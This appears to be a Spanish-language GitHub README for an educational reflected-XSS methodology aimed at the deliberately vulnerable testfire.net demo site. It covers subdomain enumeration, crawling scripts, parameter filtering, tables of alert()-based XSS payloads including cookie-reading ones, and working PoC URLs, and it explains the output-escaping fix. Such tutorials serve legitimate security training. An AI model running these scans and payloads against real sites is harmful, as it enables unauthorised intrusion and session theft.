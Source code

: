 # Reflected XSS Framework

![Anatomía de un ataque XSS](https://websitesecuritystore.com/wp-content/uploads/2021/07/cross-site-scripting-examples.svg)

>*Imagen tomada de: [Website Security Store](https://websitesecuritystore.com)*

Este repositorio contiene un marco de trabajo básico para la detección y explotación ética de vulnerabilidades de tipo **XSS reflejado**.

---

## ⚠️ Disclaimer

> Este proyecto es **exclusivamente para fines educativos** y de **pruebas en entornos controlados**.  
> No está permitido su uso en sistemas sin la debida autorización.  
> **Demo utilizada:** [http://testfire.net](http://testfire.net) con credenciales `admin:admin`  
> Esta aplicación está diseñada intencionalmente para tener fallas de seguridad.  
> *“This web application is purposely designed to have security vulnerabilities for educational and testing purposes.”*

---
<!-- espacio -->
## 1. Agregar HTTP Headers personalizados en Burp Suite

```bash
# En Burp -> Proxy -> match/replace rule
# Añadir:
Type: Request header
Match: ^User-Agent.*$
Replace: X-Pentest: Kxss_PoC 
Comment: (empty)
```
```bash
#Auto-modified request
POST /update HTTP/2
Host: example.com
Content-Type: application/json
X-Pentest: Kxss_PoC 
Content-Length: 34

{
  "key1": "value1",
  "key2": "value2"
}
```
>*Referencias: [Requestly](https://requestly.com/blog/modify-headers-in-https-requests-and-responses-in-chrome-firefox-safari/) [Exploit-notes](https://exploit-notes.hdks.org/exploit/web/tool/add-custom-http-headers-in-burp-suite/) [Website for testing header](https://httpbin.org/headers)*

<!-- espacio -->
## 2. Encontrar subdomains
```bash
subfinder -d testfire.net -silent -all -recursive -o testfire.net_subs.txt
amass enum -passive -d testfire.net -o testfire.net_amass_subs.txt
url -s "https://crt.sh/?q=%25.testfire.net&output=json" | jq -r '.[] | .name_value' | sed 's/\*\.//g' | anew testfire.net_crt.txt
github-subdomains -d testfire.net -t [github_token] -o testfire.net_github_subs.txt
cat *_subs.txt | sort -u | anew testfire.net_all_subs.txt
```
```bash
# Obtener token github
#Fine-grained personal access tokens -> Generate new token
```
>*Referencias: [Generate Token](https://github.com/settings/personal-access-tokens/)*

<!-- espacio -->
## 3. Web Crawling para encontrar URLs interesantes
```bash
#Simple command
katana -u testfire.net -silent -jc -o testfire.net_katana_results.txt
```
> Bash práctico para muchos subdomains
```bash
nano run_katana.sh
chmod +x run_katana.sh
./run_katana.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

INPUT="testfire.net_all_subs.txt"
OUTPUT="testfire.net_katana_results.txt"

# Limpiar salida anterior
> "$OUTPUT"

# Filtrar subdominios válidos y ejecutar katana
grep -oP '(?:[a-zA-Z0-9_-]+\.)+testfire\.net' "$INPUT" | sort -u | while read -r sub; do
    echo "[+] Escaneando: http://$sub"
    katana -u "http://$sub" -silent -jc >> "$OUTPUT"
done

echo "[+] Finalizado. Resultados en $OUTPUT"
```
</details>

<!-- espacio -->
## 4. Buscar patrones comunes de XSS en URLs
```bash
nano filtrar_parameters_xss.sh
chmod +x filtrar_parameters_xss.sh
./filtrar_parameters_xss.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

# Archivo de entrada
INPUT_FILE="testfire.net_katana_results.txt"

# Archivo de salida
OUTPUT_FILE="parametros_xss.txt"

# Lista de parámetros sospechosos
PARAMS=(
"q"
"s"
"search"
"lang"
"keyword"
"query"
"page"
"keywords"
"year"
"view"
"email"
"type"
"name"
"p"
"callback"
"jsonp"
"api_key"
"api"
"password"
"emailto"
"token"
"username"
"csrf_token"
"unsubscribe_token"
"id"
"item"
"page_id"
"month"
"immagine"
"list_type"
"url"
"terms"
"categoryid"
"key"
"l"
"begindate"
"enddate"
)

# Crear expresión regular separada por |
REGEX=$(IFS=\| ; echo "${PARAMS[*]}")

# Filtrar y guardar en archivo de salida
grep -Ei "\b(${REGEX})\b" "$INPUT_FILE" > "$OUTPUT_FILE"

echo "[+] Resultados guardados en $OUTPUT_FILE"
```
</details>

>*Referencias: [Patrones xss](https://github.com/1ndianl33t/Gf-Patterns/blob/master/xss.json)*

<!-- espacio -->
## 5. Investigación de candidatos
```bash
#cat parametros_xss.txt
https://demo.testfire.net/search.jsp
...
https://demo.testfire.net/swagger/err/error-transformers/transformers/not-of-type.js
https://demo.testfire.net/swagger/download-url.js
```

<details>
<summary>📜 Top payloads para testing</summary>

| Nº  | Payload                                             | Descripción                                                                 |
|-----|-----------------------------------------------------|------------------------------------------------------------------------------|
| 1  | `<script>alert(1)</script>`                         | Funciona cuando se inserta en HTML sin sanitizar.                  |
| 2  | `"><script>alert(1)</script>`                       | Cierra un atributo HTML antes de inyectar el script.                        |
| 3  | `<img src=x onerror=alert(1)>`                      | Ejecuta código JavaScript al fallar la carga de la imagen.                  |
| 4  | `<svg onload=alert(1)>`                             | SVG permite eventos como `onload`, útil para bypass en filtros simples.     |
| 5  | `<iframe src="javascript:alert(1)">`                | Ejecuta código desde el atributo `src`, usando el protocolo `javascript:`.  |
| 6  | `<body onload=alert(1)>`                            | Si se puede controlar etiquetas HTML, permite ejecutar al cargar el body.   |
| 7  | `<math><mtext><script>alert(1)</script>`           | Usa etiquetas poco comunes que a veces no son filtradas por WAFs.           |
| 8  | `<script>confirm(1)</script>`                       | Alternativa a `alert()`, puede evadir detecciones básicas.                  |
| 9  | `<details open ontoggle=alert(1)>`                  | HTML5: evento `ontoggle` poco filtrado, efectivo en bypass.                 |
| 10   | `<a href="javascript:alert(1)">Click</a>`           | Si el tag `<a>` es permitido, ejecuta JS al hacer clic.                     |

| Nº  | Payload                                                              | Descripción                                                                 |
|-----|----------------------------------------------------------------------|------------------------------------------------------------------------------|
| 1️  | `<script>alert(document.cookie)</script>`                            | Muestra las cookies activas de la sesión.                                   |
| 2  | `<script>alert(document.domain)</script>`                            | Muestra el dominio actual de ejecución.                                     |
| 3  | `<script>alert(document.location)</script>`                          | Imprime la URL completa del documento.                                      |
| 4  | `<script>alert(document.referrer)</script>`                          | Muestra desde qué página se llegó al sitio.                                 |
| 5  | `<script>alert("Cookie: "+document.cookie)</script>`                | PoC más personalizada mostrando la cookie.                                  |
| 6  | `<script>alert("URL: "+window.location.href)</script>`              | Muestra la URL completa con más claridad.                                   |
| 7  | `<script>alert("Dominio: "+location.hostname)</script>`             | Útil para fingerprint o confirmar subdominios.                              |
| 8  | `<script>alert("Ruta: "+location.pathname)</script>`                | Ruta del recurso dentro del sitio.                                          |
| 9  | `<script>alert("User-Agent: "+navigator.userAgent)</script>`        | Muestra el navegador/vista del cliente.                                     |
| 10   | `<script>alert("Cookie: "+document.cookie+"\nRef: "+document.referrer)</script>` | Combina datos clave en un solo pop-up.                            |

</details>

```bash
# Payload básico para la PoC:
<script>alert(document.cookie)</script>
#Url
https://demo.testfire.net/search.jsp?query=investor
https://demo.testfire.net/search.jsp?query=<script>alert(document.cookie)</script>
```
> Abrimos la ulr

![image](https://github.com/user-attachments/assets/8158af39-7bb6-478d-b70d-30124c771260)
> Testeamos el parámetro reflejado

![image](https://github.com/user-attachments/assets/7752fc90-2800-4a75-8ec9-ee26f52c385d)
> Insertamos el payload

![image](https://github.com/user-attachments/assets/1136a0b4-5fc0-4a46-a3b4-f1703687c70d)



>*Referencias: [Payload xss comunes](https://github.com/payloadbox/xss-payload-list)*

<!-- espacio -->
## 6. ¿Qué está pasando background?
> El servidor inserta directamente lo que escribimos en query en su HTML

```bash
<td valign="top" colspan="3" class="bb">
 <div class="fl" style="width: 99%;">
  <h1>Search Results</h1>
	<p>No results were found for the query:<br /><br />
	<script>alert(document.location)</script>
 </div>    
</td>	
```
> El navegador no ve eso como texto, sino como un verdadero elemento <script>, y por eso lo ejecuta inmediatamente.
> Para evitar este ataque, debería escapar los caracteres especiales como <, >, " y ' en el parámetro query.
> De esta forma, el navegador lo mostraría como texto, no lo ejecutaría.

```bash
<p>No results were found for the query:<br /><br />
&lt;script&gt;alert(document.location)&lt;/script&gt;
```

<!-- espacio -->
## 7. Automatizar Busqueda Reflected XSS
> Nos apoyamos de la tools gf para encontrar parametros comunes con posibles xss reflect
```bash
go install github.com/tomnomnom/gf@latest
#clonar patrones
mkdir -p ~/.gf
git clone https://github.com/1ndianl33t/Gf-Patterns
cp Gf-Patterns/*.json ~/.gf
```
<details>
<summary>📜 xss.json</summary>

```bash
$  cat ~/.gf/xss.json
{
     "flags": "-iE", 
     "patterns": [
"q=",
"s=",
"search=",
"lang=",
"keyword=",
"query=",
"page=",
"keywords=",
"year=",
"view=",
"email=",
"type=",
"name=",
"p=",
"callback=",
"jsonp=",
"api_key=",
"api=",
"password=",
"email=",
"emailto=",
"token=",
"username=",
"csrf_token=",
"unsubscribe_token=",
"id=",
"item=",
"page_id=",
"month=",
"immagine=",
"list_type=",
"url=",
"terms=",
"categoryid=",
"key=",
"l=",
"begindate=",
"enddate="

]
}
```
</details>

> Filtrar el fichero que contiene las url katana que contengan patrones xss

```bash
cat testfire.net_katana_results.txt | gf xss

https://demo.testfire.net/survey_questions.jsp?step=a
https://demo.testfire.net/util/serverStatusCheckService.jsp?HostName=
https://demo.testfire.net/disclaimer.htm?url=http://www.microsoft.com
https://demo.testfire.net/disclaimer.htm?url=http://www.netscape.com 
```
> Filtrar el fichero que contiene las url katana que contengan patrones xss
```bash
#payload:
<script>alert(document.cookie)</script>
https://demo.testfire.net/util/serverStatusCheckService.jsp?HostName=
https://demo.testfire.net/util/serverStatusCheckService.jsp?HostName=%3Cscript%3Ealert(document.cookie)%3C/script%3E
```
![image](https://github.com/user-attachments/assets/0c5a3d6a-883c-4322-825a-73bc2747f7f3)

<!-- espacio -->
> Kxss
>> Kxss parametros previos filtrados

```bash
cat demo.testfire.net_katana_results.txt 
https://demo.testfire.net
...
https://demo.testfire.net/survey_questions.jsp?step=a
```
```bash
cat demo.testfire.net_katana_results.txt | grep = | kxss > kxss_test.txt  
```
```bash
cat kxss_test.txt  
URL: https://demo.testfire.net/index.jsp?content=business_retirement.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; 
...
URL: https://demo.testfire.net/index.jsp?content=inside_press.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
URL: https://demo.testfire.net/index.jsp?content=business_cards.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
URL: https://demo.testfire.net/index.jsp?content=inside_careers.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
```

<!-- espacio -->
>> Kxss usando urlfinder (10/10)
```bash
urlfinder -d demo.testfire.net | grep = | kxss > kxss_demo.txt
```
```bash
urlfinder -d demo.testfire.net | grep = | kxss > kxss_demo.txt
```
```bash
nano kxss_scan.sh
chmod +x kxss_scan.sh
./kxss_scan.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

# Archivo con subdominios
SUBDOMAINS_FILE="testfire.net_all_subs.txt"
# Carpeta de salida
OUTPUT_DIR="kxss_results"
# Crear carpeta si no existe
mkdir -p "$OUTPUT_DIR"

# Iterar sobre cada subdominio
while read -r sub; do
    echo "[*] Escaneando: $sub"
    
    # Normalizar nombre para el fichero de salida
    OUT_FILE="${OUTPUT_DIR}/${sub//./_}.txt"
    
    # Ejecutar pipeline
    urlfinder -d "$sub" | grep = | kxss > "$OUT_FILE"
    
    echo "[+] Resultados guardados en: $OUT_FILE"
done < "$SUBDOMAINS_FILE"

echo "[✔] Escaneo finalizado. Revisa la carpeta: $OUTPUT_DIR"
```
</details>

![image](https://github.com/user-attachments/assets/823d512c-4896-49a8-ab51-e5d9f42f5349)
![image](https://github.com/user-attachments/assets/fc70261a-1db1-4879-828a-50a5806e9cec)

```bash
└─$ cat altoro_testfire_net.txt  
URL: http://altoro.testfire.net/index.jsp?content=inside_jobs.htm&job=LoyaltyMarketingProgramManager:Marketing Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
...
URL: http://altoro.testfire.net/index.jsp?content=inside_jobs.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
URL: http://altoro.testfire.net/index.jsp?content=personal_loans.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
```

<!-- espacio -->
<!-- espacio -->
<!-- espacio -->
## Creditos y Recursos
>*Referencias: [PortSwigger](https://portswigger.net/web-security/cross-site-scripting)*
>>*Referencias: [TryHackme](https://tryhackme.com/room/axss)*
>>>*Referencias: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)*
>>>>*Referencias: [AmrSec](https://www.youtube.com/watch?v=bAHNM8IInwE&ab_channel=AmrSec)*
>>>>>*Referencias: [Javo y LemonOfTroy](https://www.youtube.com/watch?v=EUWEdaNvxSM&ab_channel=ThreatXSecurity)*

